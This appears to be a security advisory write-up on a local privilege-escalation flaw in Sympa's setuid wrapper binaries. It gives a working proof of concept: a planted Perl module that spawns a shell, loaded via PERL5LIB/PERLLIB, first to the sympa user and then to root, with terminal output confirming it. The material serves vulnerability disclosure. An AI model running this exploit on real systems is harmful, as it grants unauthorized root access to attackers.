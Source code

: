 ```c
#include <unistd.h>

int main(int argn, char **argv, char **envp) {
    setreuid(geteuid(),geteuid()); // Added to fix the segfault
    setregid(getegid(),getegid()); // Added to fix the segfault
    argv[0] = WWSYMPA;
    return execve(WWSYMPA,argv,envp);
}
```

The vulnerability is caused by the *envp* variable that is passed to the WWSYMPA binary.

It means that every environment variable defined when running the `wwsympa-wrapper.fcgi` is passed to `wwsympa.fcgi`.

As `wwsympa.fcgi` is interpreted as a PERL script, the interpreter will look at the `PERLLIB` and `PERL5LIB` environment variable to look for Perl modules.

So, if we can create a malicious Perl module, the PERL interpreter will look in the PERLLIB and PERL5LIB path, and if a module name matches, it will load it. 

We came up with the following POC that allows us to escalate our privileges as *sympa*, by creating a malicious *Config* perl module:

```
$ id
uid=1000(xyz) gid=1000(xyz) groupes=1000(xyz),10(wheel) contexte=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
$ mkdir /tmp/poc
$ echo 'exec("/bin/bash");' > /tmp/poc/Config.pm
$ PERL5LIB=/tmp/poc PERLLIB=/tmp/poc /usr/libexec/sympa/wwsympa-wrapper.fcgi
bash-5.0$ id
uid=977(sympa) gid=975(sympa) groupes=975(sympa),10(wheel),1000(xyz) contexte=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

As we are now the *sympa* user, we are allowed to execute the `sympa_newaliases-wrapper` suid-root binary. Let's take a look at the source code:

```c
#include <unistd.h>

int main(int argn, char **argv, char **envp) {
    setreuid(geteuid(),geteuid());
    setregid(getegid(),getegid());
    argv[0] = SYMPA_NEWALIASES;
    return execve(SYMPA_NEWALIASES, argv, envp);
}
```

`SYMPA_NEWALIASES` point to `sympa_newaliases.pl`, which is also a *Perl* script!

If we use the same POC as before, we could gain root privilege escalation as root.

```
bash-5.0$ id
uid=977(sympa) gid=975(sympa) groupes=975(sympa),10(wheel),1000(xyz) contexte=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
bash-5.0$ echo $PERLLIB
/tmp/poc
bash-5.0$ echo $PERL5LIB
/tmp/poc
bash-5.0$ /usr/libexec/sympa/sympa_newaliases-wrapper
[root@localhost poc]# id
uid=0(root) gid=975(sympa) groupes=975(sympa),10(wheel),1000(xyz) contexte=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[root@localhost poc]# whoami
root
```
